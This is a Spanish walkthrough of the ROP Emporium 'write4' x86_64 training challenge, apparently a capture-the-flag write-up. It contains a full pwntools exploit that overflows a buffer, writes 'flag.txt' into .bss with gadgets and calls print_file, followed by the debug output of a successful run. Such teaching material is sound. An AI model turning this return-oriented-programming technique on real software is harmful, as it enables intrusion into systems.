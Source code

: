 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# 4. Write4 (x86\_64)

Este ejercicio es casi el mismo que [callme](3.-callme-x86_64.md). La diferencia principal es que en lugar de tener que llamar a unas funciones de la libc externa con x parámetros para desencriptar hay que llamar una función, también de la libc que nos dan, y pasarle por parámetro un puntero al string "flag.txt", vamos a verlo:

```c
void print_file(char *param_1)
{
    char array[40];
    FILE *ptr_flag;

    ptr_flag = (FILE *)0x0;
    ptr_flag = fopen(param_1, "r"); // Aquí
    if (ptr_flag == (FILE *)0x0) {
        printf("Failed to open file: %s\n", param_1);
        exit(1);
    }

    fgets(array, 0x21, ptr_flag);
    puts(array);
    fclose(ptr_flag);
    return;
}
```

Como podemos ver se abre el archivo que le pasemos como parámetro a la función y luego la imprime usando punteros. Parece fácil, simplemente usamos un gadget que haga un `pop rdi` y le pasamos `flag.txt` y listo, no? Pues no es tan fácil ya que `fopen` pide un puntero a un string y no el valor directamente. Para solucionar esto vamos a meter `flag.txt` en la sección de memoria `.bss` usando un gadget y luego vamos a mandarle el puntero como parámetro. Con pwntools podemos automatizar la búsqueda de la dirección inicial de bss con `exe.bss()`. Vamos a hacer el exploit:

```python
#!/usr/bin/env python3

from pwn import *
import sys

exe = ELF("write4")
libc = ELF("libwrite4.so")

context.binary = exe
context.terminal = ['kitty']
gdb_script = f'''
continue
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
        return r
    return remote("addr", 1337)

def main():
    io = conn()
    
    offset = 40
    pop_rdi = 0x00400693 # pop rdi, ret
    mov_r14_r15 = 0x00400628 # mov qword ptr [r14], r15 ; ret
    pop_r14_r15 = 0x00400690 # pop r14 ; pop r15 ; ret
    
    payload = flat({
        offset: [
            pop_r14_r15, exe.bss(), b'flag.txt',
            mov_r14_r15,
            pop_rdi,    exe.bss(),
            exe.plt['print_file'],
        ]
    })

    io.sendlineafter(b'> ', payload)
    
    io.interactive()

if __name__ == "__main__":
    main()

```

> Si el programa escribiera algo en .bss habría que tenerlo en cuenta y sumar a `exe.bss()` lo necesario para que cuadre con el primer espacio libre

```c
[+] Starting local process '/home/ub1cu0/Desktop/ropEmporium/write4/write4': pid 799711
[DEBUG] Received 0x4a bytes:
    b'write4 by ROP Emporium\n'
    b'x86_64\n'
    b'\n'
    b'Go ahead and give me the input already!\n'
    b'\n'
    b'> '
[DEBUG] Sent 0x61 bytes:
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
    00000020  69 61 61 61  6a 61 61 61  90 06 40 00  00 00 00 00  │iaaa│jaaa│··@·│····│
    00000030  38 10 60 00  00 00 00 00  66 6c 61 67  2e 74 78 74  │8·`·│····│flag│.txt│
    00000040  28 06 40 00  00 00 00 00  93 06 40 00  00 00 00 00  │(·@·│····│··@·│····│
    00000050  38 10 60 00  00 00 00 00  10 05 40 00  00 00 00 00  │8·`·│····│··@·│····│
    00000060  0a                                                  │·│
    00000061
[*] Switching to interactive mode
[DEBUG] Received 0x2c bytes:
    b'Thank you!\n'
    b'ROPE{a_placeholder_32byte_flag!}\n'
Thank you!
ROPE{a_placeholder_32byte_flag!}
```

Y así conseguiremos la flag!
